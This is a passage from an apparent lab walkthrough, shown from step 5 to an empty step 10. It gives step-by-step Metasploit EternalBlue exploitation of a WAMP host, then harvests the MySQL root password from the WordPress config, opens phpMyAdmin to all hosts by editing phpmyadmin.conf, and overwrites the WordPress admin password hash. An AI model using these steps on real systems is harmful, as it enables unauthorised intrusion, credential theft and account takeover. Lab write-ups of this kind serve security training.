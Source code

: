 5.  Modify phpmyadmin on wordpress page to allow access from browser: msfconsole: `search eternalblue` -> `use 0` -> `set RHOSTS` ->` set LPORT and LHOSTS` -> `run` -> `C:\` , look for wamp, `cd wamp\\` -> `cd www\\` <- under this you might find worpress config file to get mysql root password -> find "alias" directory and look for phpmyadmin.conf -> `download phpmyadmin.conf` -> modify file with vim -> in `<Directory> delete all rules under "AllowOverride all" and write "Allow from all"` see picture ![alt text](/assets/phpmyadmin_change.png), then save
6.  in msfconsol: `upload phpmyadmin.conf` , restart service in session. `net stop wampapache` -> `net start wampapache` 
7.  go to website 10.10.x.x:8585/phpmyadmin/
8.  go to wp_users and change password of admin -> column: user_pass, function:MD5 , value: your password
9.  go to wordpresspage: 10.10.x.x:8585/wordpress/wp-admin and log in
10. 